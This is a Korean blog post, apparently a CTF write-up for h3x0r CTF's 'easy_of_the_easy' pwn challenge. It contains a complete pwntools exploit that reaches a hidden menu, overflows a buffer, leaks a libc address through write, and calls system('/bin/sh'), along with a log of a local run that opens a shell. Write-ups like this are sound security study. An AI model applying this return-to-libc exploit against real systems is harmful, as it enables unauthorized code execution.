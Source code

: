 ```yaml
---
layout: post
title: ! '[h3x0r CTF] easy_of_the_easy (pwn 300)'
excerpt_separator: <!--more-->
comments: true
tags:
  - CTF
  - Write-up
---
```


학기중에는 바빠서 H3x0r CTF에 참가하지 못했다. 그래서 종강한 뒤 여유가 생겨서 문제를 몇 개 풀어보고자 했다. 그런데 너무 오랫동안 포너블 문제를 풀지 않아서인가 계속 버벅대기에, 생각도 정리하고 나중에 참고할 수 있도록 블로그에 포스팅을 올리기로 결심하였다.

<!--more-->

> nc 49.236.136.140 14000
>
> [Download](https://h3x0r.kr/uploads/8/easy_of_the_easy)
>
> -Ho_9

문제가 매우 심플하다. 바이너리만 하나 던져준다.

> \#file easy_of_the_easy
>
> easy_of_the_easy: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=943b5012ebc31246a545435ea3a4336795a9bb8d, not stripped

확인해보면 32bit 바이너리인걸 알 수 있다.

분석해보면 단순한 계산기 프로그램이고, 일정 조건을 만족하면 special menu를 열어주어 BOF 취약점을 트리거할 수 있게 되어있다. canary도 안 걸려있다. (걸려있어도 해결 가능할 것 같긴 하지만) 문제 자체가 포너블의 sanity check 개념인듯 하다. wrtie, read함수가 보이니까 대충 BOF로 주소 leak 해서 쉘 따면 된다.

```python
from pwn import *

PROCESS = "./easy_of_the_easy"

First_gate_addr = 0x08048801
special_menu_addr = 0x080487a0
write_plt = 0x08048452
read_got = 0x0804a00c

r = process(PROCESS)

def main () :
	global system_addr
	global binsh_addr

	make_nbytes()
	r.recvuntil("Good Luck!")
	bof()

	data = r.recvline().strip()
	system_addr = u32(data) - 0x9ad60
	binsh_addr = system_addr + 0x120c6b

	log.info(hex(system_addr))
	log.info(hex(binsh_addr))
	
	givemeshell()

	r.interactive()

def make_nbytes() :
	r.sendline("1 245686 1")
	r.recvuntil("Menu")
	r.sendline("2 2 1")
	r.recvuntil("Menu")
	r.sendline("3 1 1")
	r.recvuntil("Menu")
	r.sendline("4 1 1")
	r.recvuntil("Menu")
	r.sendline("1 1 0")
	r.recvuntil("Menu")
	r.sendline("2 2 1")
	r.recvuntil("Menu")
	r.sendline("3 1 1")
	r.recvuntil("Menu")
	r.sendline("4 1 1")
	r.recvuntil("Menu")
	r.sendline("6")
	r.recvuntil("Menu")
	r.sendline("4 1 1") # go to hidden menu

def bof() :
	payload = "A"*18
	payload += "B"*4
	payload += p32(write_plt)
	payload += p32(special_menu_addr) # +@ RET
	payload += p32(0x01)
	payload += p32(read_got)
	# payload += p32(0x08048b48) # good
	payload += p32(0x04)
	r.sendline(payload)

def givemeshell() :
	payload = "A"*18
	payload += "B"*4
	payload += p32(system_addr)
	payload += "C"*4 # Garbage RET
	payload += p32(binsh_addr)
	payload += "D"*20
	r.sendline(payload)

if __name__ == '__main__' :
	main ()
```

> root@ubuntu:~/CTF/h3x0r/easy_of_the_easy\# python local_exploit.py
> 
> [\+] Starting local process './easy_of_the_easy': pid 5203
> 
> [\*] 0xf7d72da0
> 
> [\*] 0xf7e93a0b
>
> [\*] Switching to interactive mode
>
> ==========================================
>
> ​            Secret           Way          
>
> ==========================================
>
> Good Luck!$ ls
>
> easy_of_the_easy  local_exploit.py
>
> $ 



bof 해줄때 32bit 오랜만이라 그런가.. write 함수 다음에 +@ ret 적어주는걸 까먹어서 이상한 오류가 뿜뿜!! 했다. 다음부터는 주의해야지.
